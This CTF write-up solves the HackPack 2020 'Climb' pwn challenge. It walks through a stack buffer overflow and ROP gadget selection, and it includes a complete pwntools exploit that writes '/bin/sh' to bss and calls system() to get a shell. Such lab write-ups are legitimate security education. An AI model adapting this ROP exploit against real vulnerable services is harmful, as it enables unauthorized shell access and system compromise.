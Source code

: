 <h1>Climb</h1>
<h2>HackPack CTF 2020 PWN</h2>

<h3>Problem:</h3>
"Can you help me climb the rope?"

<h3>Solution:</h3>
Based on the problem, the first thing we are looking for is a buffer overflow vulnerability that can allow us to ROP.

After looking at the binary through Ghidra, we notice that main reads 500 bytes into a 32 byte variable.

![Image of Main](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/main.PNG)

We can take a look with checksec and we get:

![image of checksec](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/checksec.PNG)

So we have no canary to worry about, and no PIE so we can hard code function addresses, and system() is already resolved for us in the binary, so there is no need to ret to libc.

First, since system() requires a pointer loaded on the RDI we need to write to a memory address that we can call later.  Using vmmap with pwndbg we can see that the range 0x601000 to 0x602000 is set for both read and write.

![image of checksec](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/vmmap.PNG)

Looking in Ghidra the higher areas of that should not be used so I chose (0x601fb0).

Next we need to be able to write to that area.  We can use ROPgadget > dump.txt to browse through all the available gadgets and build a ROP chain, here is a good one:

0x000000000040065d : mov qword ptr \[rdx\], rax ; ret

will allow us to write from the rax to the location on the rdx.

The only thing left is to build the payload.  Below is the exploit code I used:

'''python
from pwn import *

target = './climb'

context.update(terminal = ['tmux','splitw'])

#==========================================================
#           CODE
#==========================================================

p = process(target)

#p = remote('cha.hackpack.club',41702)

sh = b'/bin/sh\0'
sh = int.from_bytes(sh, byteorder='little')

#gdb.attach(p)

pl = p64(0x4141414141414141) * 5    # padding to ret addr
pl += p64(0x40064b)                 # pop rax
pl += p64(sh)                       # /bin/sh into rax
pl += p64(0x400654)                 # pop rdx
pl += p64(0x601fb0)                 # address on bss
pl += p64(0x40065d)                 # writes rax to address on rdx
pl += p64(0x400743)                 # pop rdi
pl += p64(0x601fb0)                 # address on bss
pl += p64(0x400530)                 # call system()

print(p.recvuntil('respond?'))
p.send(pl)
p.interactive()
'''
